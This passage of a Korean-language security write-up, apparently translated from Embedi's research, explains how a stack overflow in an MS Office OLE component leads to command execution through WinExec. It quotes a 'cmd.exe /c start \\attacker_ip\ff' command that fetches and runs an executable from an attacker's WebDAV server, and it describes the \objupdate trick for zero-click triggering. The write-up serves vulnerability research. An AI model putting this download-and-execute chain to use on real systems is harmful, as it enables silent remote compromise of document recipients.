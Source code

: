 따라서, 제어된 주소로 점프될 수 있다면 해당 스택은 WinExec의 도움으로 임의의 제어된 명령어를 수행하기에 적절한 구조를 갖게 됩니다(그림 11).

![Fig](/posts169_12.jpg "posts169_12.jpg")

공격자에 의해 오버플로우된 배열의 크기는 36바이트 였다. 게다가 변수 v12와 저장된 ebp를 사용해 여분의 8바이트를 활용 가능했다.  
설명된 취약점을 악용하는 몇몇의 OLE들을 삽입함으로써, 순차적인 임의의 명령어들을 수행할 수 있었다.(인터넷에서 임의의 파일을 다운로드하고 실행하는 것)  
임의의 코드를 실행하는 가장 쉬운 방법은 공격자가 제어한느 WebDAV 서버로부터 실행가능한 파일을 다운받아 실행시키는 것이다. 그러나, 이것은 WebClident 서비스가 적절하게 운용되고 있을 때 가능한 일이다.   
그럼에도 공격자는 cmd.exe /c start \\attacker_ip\ff 와 같은 명령어를 실행하기 위해 설명한 취약점을 이용하는 것이 가능하다. 이러한 커맨드는 익스플로잇의 부분과 WebClient를 시작하는 트리거로 사용할 수 있다. 
  이후에 공격자는 \\attacker_ip\ff\1.exe 명령어를 사용해 WebbDAV서버로부터 실가능한 파일을 시작할 수 있다. 실행가능한 파일의 시작 메커니즘은 \\live.sysinternals.com\tools 와 비슷하다.  
익스플로잇 과정을 통해, MS 오피스워드는 적절한 운용과 정보를 표시하게 된다(언급한 프레젠테이션 스트림은 OLE의 위치에 그림을 삽입한다). 이렇게 되면 공격자를 탐지하는 것은 더 어려워진다.  
어떠한 유저와도 상호작용하지 않는(더블클릭하지 않는) 문서 내부의 OLE를 업데이트하기 위해서 공격자는 MS오피스의 RTF프로세서의 표준 기능중 하나인 OLE 자동 업데이트를 사용할 수 있다.   
이 목적을 위해, \objupdate 속성이 \object 에 추가되어야 한다. 결과로 해당 취약점은 유저와의 상호작용 없이도 트리거 될 수 있다.  
이와 같은 과정을 통해, Embedi의 전문가들은 다음과 같은 익스플로잇을 만들 수 있었다.

* 오피스 365를 포함해 지난 17년간 배포된 모든 버전에서 동작
* 모든 윈도우 버전에서 동작
* 모든 타입의 아키텍쳐와 관련 있음
* MS오피스를 사용하는 유저를 방해하지 않음
* 문서만 열리면 유저와의 상호작용을 필요로 하지 않음
